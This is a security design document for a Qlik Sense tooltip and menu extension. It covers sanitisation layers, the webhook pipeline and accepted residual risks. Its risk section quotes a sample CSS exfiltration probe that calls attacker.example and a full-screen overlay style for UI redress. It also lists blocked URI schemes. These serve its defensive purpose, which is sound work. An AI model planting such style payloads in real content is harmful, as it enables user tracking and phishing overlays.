



# Security — Tooltip & Menu System

> **Scope:** HelpButton.qs rendering pipeline, webhook integration, and property-panel–authored content.
> **Audience:** Extension developers, Qlik administrators.
> **Last updated:** 2026-04-02

---

## Overview

The extension processes user-authored content — Markdown text, URLs, color values,
webhook configurations — that is stored in the Qlik Engine and eventually rendered
into the browser DOM or transmitted to external endpoints.

Because several rendering paths use `innerHTML`, every value that reaches the DOM
must be sanitised first. The extension applies a layered defence:

1. **DOMPurify** sanitises rich-text content (Markdown → HTML) in tooltips and dialogs.
2. **`escapeHtml()`** converts plain-text fields to safe output before `innerHTML` insertion.
3. **`textContent`** is used wherever HTML rendering is unnecessary.
4. **`safeCssColor()`** validates color values against a strict regex before they are
   interpolated into SVG markup strings.
5. **URI allowlist** (optional) restricts which origins can appear in embedded
   `<iframe>`, `<video>`, and `<source>` elements within tooltip content.
6. **URL scheme validation** blocks `javascript:`, `data:`, and other dangerous URI
   schemes in menu item links.
7. **Platform CSP** (Qlik Cloud tenant or client-managed proxy) provides an
   additional defence-in-depth layer the extension does not control.

---

## Data flow and trust boundaries

---

## How each field is protected

| Field | Scope | Sanitization | DOM method | Notes |
| --- | --- | --- | --- | --- |
| `hoverContent` | Tooltip | `markdownToHtml()` → DOMPurify (whitelist + URI filter) | `innerHTML` | Rich text — supports Markdown, images, video embeds. DOMPurify strips all event handlers, `javascript:` URIs, and non-whitelisted tags. Optional URI allowlist restricts embedded media origins. |
| `dialogContent` | Tooltip | `markdownToHtml()` → DOMPurify (whitelist + URI filter) | `innerHTML` | Same pipeline as `hoverContent` but with a 16 KB limit. |
| `dialogTitle` | Tooltip | None needed | `textContent` | Native DOM — no HTML interpretation. |
| `tooltipLabel` | Tooltip | None needed | `textContent` / `aria-label` | Used in property panel listing and icon `aria-label`. |
| Menu item `label` | Menu | None needed | `textContent` | Native DOM — no HTML interpretation. |
| Menu item `url` | Menu | `isSafeUrl()` — scheme allowlist | `.href` / `window.open()` | Only `http://`, `https://`, and relative (`/`) URLs are allowed. `javascript:`, `data:`, and other dangerous schemes are blocked. Template `{{…}}` placeholders are resolved before validation. |
| Icon colors | All | `safeCssColor()` — regex validation | SVG `fill` attribute in markup string | Must match hex, `rgb()`, `rgba()`, `hsl()`, `hsla()`, or a named color. Invalid values fall back to `currentColor`. |
| Theme colors | All | CSSOM API | `.style.background`, `.style.color`, etc. | Browser's CSSOM silently discards invalid values — no injection risk. |
| `overlayColor` / custom colors | Various | `resolveColor()` → CSSOM API | `.style.*` | Same CSSOM safety as theme colors. |
| Webhook URL | Bug report / Feedback | Template resolution + `fetch()` | Not in DOM | URL with `{{…}}` placeholders resolved from Qlik APIs. Transmitted via `fetch()` POST. |
| Webhook auth token | Bug report / Feedback | N/A | Not in DOM | Stored in extension properties (encrypted at rest by Qlik). Sent as `Authorization` header. |
| Bug report description | Dialog | `escapeHtml()` in UI; JSON-encoded in webhook payload | `innerHTML` (escaped) / JSON | Plain text only — never rendered as HTML at the receiving end. |
| Feedback comment | Dialog | `escapeHtml()` in UI; JSON-encoded in webhook payload | `innerHTML` (escaped) / JSON | Same as bug report description. |
| `targetCssSelector` | Tooltip | **None** | `querySelector()` | See [Remaining risks — CSS selector injection](#css-selector-injection). |
| Markdown editor **Preview** | Editing | `markdownToHtml()` + DOMPurify + URI filter | `innerHTML` | Preview applies the same `allowedUriPatterns` as the runtime rendering. |
| `showCondition` | Tooltip / Menu | Qlik expression engine | Server-side eval | Evaluated within the Engine's expression sandbox. |

### DOMPurify configuration

`markdownToHtml()` calls `DOMPurify.sanitize()` with the following additions to the default allowlist:

| Added tags | Added attributes |
| --- | --- |
| `iframe`, `video`, `source` | `target`, `rel`, `style`, `frameborder`, `controls`, `autoplay`, `muted`, `loop`, `poster`, `preload`, `playsinline`, `allowfullscreen`, `allow`, `loading`, `referrerpolicy` |

Everything else (event handler attributes like `onclick`/`onerror`, `<script>`, `<object>`, `<embed>`, `data:` URIs, `javascript:` URIs, etc.) is **stripped** by DOMPurify's default rules.

### URI allowlist

The property panel **Security** section exposes a `security.allowedUriPatterns` setting — a comma-separated list of URL prefixes (e.g. `https://www.youtube.com/embed/, /content/Default/`).

When configured, `markdownToHtml()` post-processes the DOMPurify output and removes any `<iframe>`, `<video>`, or `<source>` element whose `src` attribute does not start with one of the allowed prefixes. `<video>` elements that lose all their `<source>` children are also removed.

When **empty** (default), all sources are allowed. The platform's Content Security Policy still applies as an independent control.

The same `allowedUriPatterns` value is forwarded to the Markdown editor's Preview tab, so editors see a faithful representation of what will be rendered at runtime.

### Video embed security

The `@[title](url)` video embed syntax enforces:

- Only `https://` URLs are accepted — `http://`, `data:`, and `javascript:` are rejected.
- Only YouTube and Vimeo URLs produce iframe embeds (IDs extracted by regex).
- Only `.mp4`, `.webm`, and `.ogg` extensions produce `<video>` tags.
- Unknown hosts are silently ignored (no output).
- Iframe `allow` attribute is restricted to: `accelerometer`, `clipboard-write`, `encrypted-media`, `gyroscope`, `picture-in-picture`.

---

## Webhook pipeline

**CSRF protection:** The XRF key for Qlik Sense Client-Managed sessions is generated using `crypto.getRandomValues()`, providing cryptographically secure randomness.

**Template fields:** Webhook URLs support `{{…}}` placeholders (`{{userId}}`, `{{appId}}`, `{{sheetId}}`, `{{userDirectory}}`). Values are sourced from Qlik APIs, not user input.

**Payload:** Bug report and feedback payloads contain only JSON-encoded plain text. Descriptions are never rendered as HTML.

---

## Remaining risks

### CSS injection via `style` attribute

**Severity:** Low
**Status:** Accepted

DOMPurify allows the `style` attribute on all whitelisted elements. This is needed for responsive video sizing (`max-width: 100%`) and custom image dimensions. However, it enables:

- **Exfiltration probes:** `background-image: url(https://attacker.example/log?token=...)` triggers a GET request when the element renders. An attacker with editing access could use this to confirm a user viewed a specific tooltip.
- **UI redress:** `position: fixed; z-index: 999999; top: 0; left: 0; width: 100vw; height: 100vh` could overlay the entire Qlik Sense sheet with attacker-controlled content.

**Possible future mitigation:** Add a DOMPurify `afterSanitizeAttributes` hook that parses the `style` value and strips properties outside a known-safe set (`max-width`, `width`, `height`, `margin`, `padding`, `border-radius`, `border`, `display`, `text-align`). This must be balanced against legitimate styling use cases.

### CSS selector injection

**Severity:** Low
**Status:** Accepted

`targetCssSelector` is passed directly to `document.querySelector()`. This is inherently safe from script execution — `querySelector` only searches the DOM, it does not evaluate code. However:

- **Runtime errors:** A syntactically invalid selector throws `DOMException`, which the tooltip injector catches gracefully (the tooltip is skipped).
- **Unintended targeting:** A broad selector like `body` or `.qv-page-container` could place a tooltip icon on security-sensitive UI or obscure the sheet.

**Possible future mitigation:** Validate the selector with a try/catch `document.querySelector(selector)` dry-run before storing, or restrict the selector to a safe subset (e.g. must start with `#`, `.`, or `[data-`).

### Iframe clickjacking (without URI allowlist)

**Severity:** Medium (when URI allowlist is not configured)
**Status:** Mitigated when the admin configures `security.allowedUriPatterns`

When the URI allowlist is empty (the default, for backward compatibility), any `https://` URL can appear in an `<iframe>` src within tooltip content. An attacker with app editing access could embed a convincing phishing page inside a tooltip.

**Defence-in-depth:** The Qlik platform's Content Security Policy (CSP) may block external origins depending on tenant or proxy configuration. This is outside the extension's control.

**Recommendation:** Administrators should configure `security.allowedUriPatterns` in the property panel to restrict iframe sources to trusted origins.

### Qlik expression injection

**Severity:** Info
**Status:** Delegated to Qlik Engine

Several fields support Qlik Dollar Sign Expansion (`expression: 'optional'` in the property panel). Expression evaluation is handled server-side by the Qlik Engine, which has its own sandboxing. The extension does not evaluate expressions client-side.

**Consideration:** An expression like `=GetCurrentUser()` in a visible field could expose information about the viewing user. This is consistent with Qlik's security model (editors can see all data), but administrators should be aware that expressions in tooltip content execute with the viewing user's permissions.

### DOMPurify bypass (dependency risk)

**Severity:** Info
**Status:** Monitored

The extension depends on DOMPurify for all HTML sanitisation. A vulnerability in DOMPurify itself would compromise the entire sanitization pipeline. This is an inherent risk of any sanitisation-library approach.

**Mitigating factors:**

- DOMPurify is the most widely used and actively maintained HTML sanitiser for JavaScript.
- The dependency is pinned with a caret range and updated via Renovate.
- The extension uses DOMPurify as a whitelist (not a blacklist), which is resilient to unknown-tag bypasses.

**Recommendation:** Keep DOMPurify updated. Monitor [DOMPurify security advisories](https://github.com/cure53/DOMPurify/security) and bump promptly when patches are released.

### Webhook URL trust

**Severity:** Info
**Status:** Accepted — by design

Webhook URLs are configured by app builders in the property panel. The extension transmits bug reports and feedback to whatever endpoint is configured. A malicious app builder could configure a URL that exfiltrates user context (userId, appId, etc.) to an attacker-controlled server.

**Mitigating factors:**

- Only users with app editing permissions can configure webhook URLs.
- Webhook URLs are visible in the property panel to other editors.
- User context data (userId, appId) is already visible to editors through the Qlik API.

---

## Sanitization pipeline summary

Legend: green = sanitised path.

---

## Key files

| File | Security role |
| --- | --- |
| [src/util/markdown.js](../src/util/markdown.js) | `markdownToHtml()` — DOMPurify configuration, video embed processing, URI allowlist filtering. |
| [src/util/color.js](../src/util/color.js) | `safeCssColor()` — regex validation for color values interpolated into SVG markup. `resolveColor()` — color-picker object normalisation. |
| [src/util/template-fields.js](../src/util/template-fields.js) | `resolveTemplateFields()` — webhook URL placeholder resolution. `escapeHtml()` — browser-native text-to-HTML escaping. |
| [src/ui/tooltip-hover.js](../src/ui/tooltip-hover.js) | Hover popup rendering — passes `allowedUriPatterns` to `markdownToHtml()`. |
| [src/ui/tooltip-dialog.js](../src/ui/tooltip-dialog.js) | Detail dialog rendering — passes `allowedUriPatterns` to `markdownToHtml()`. Uses `textContent` for title. |
| [src/ui/tooltip-injector.js](../src/ui/tooltip-injector.js) | Tooltip icon injection — resolves colors via `resolveColor()`, wires hover/dialog with URI patterns. |
| [src/ui/popup-menu.js](../src/ui/popup-menu.js) | Menu rendering — `isSafeUrl()` validates URL schemes. Uses `textContent` for labels. |
| [src/ui/icons.js](../src/ui/icons.js) | `makeSvg()` — validates fill color via `safeCssColor()` before SVG string interpolation. |
| [src/ui/bug-report-dialog.js](../src/ui/bug-report-dialog.js) | Bug report dialog — `generateXrfKey()` with `crypto.getRandomValues()`. `buildAuthHeaders()` for webhook auth. |
| [src/ui/feedback-dialog.js](../src/ui/feedback-dialog.js) | Feedback dialog — same `generateXrfKey()` and `buildAuthHeaders()` as bug-report. |
| [src/ui/markdown-toolbar.js](../src/ui/markdown-toolbar.js) | Tabbed Write/Preview editor — applies `allowedUriPatterns` to preview rendering. |
| [src/ui/markdown-editor-dialog.js](../src/ui/markdown-editor-dialog.js) | Markdown editor modal — forwards `allowedUriPatterns` to tabbed editor. |
| [src/property-panel/security-section.js](../src/property-panel/security-section.js) | Property panel Security section — URI allowlist configuration. |

---

## Future work

| Priority | Item | Description |
| --- | --- | --- |
| **Low** | CSS property allowlist for `style` | DOMPurify hook to restrict inline styles to a safe property set |
| **Low** | CSS selector validation | Dry-run or syntax-check `targetCssSelector` before storage |
| **Info** | Webhook URL scheme enforcement | Restrict webhook URLs to `https://` only (currently accepts any scheme the browser allows via `fetch`) |
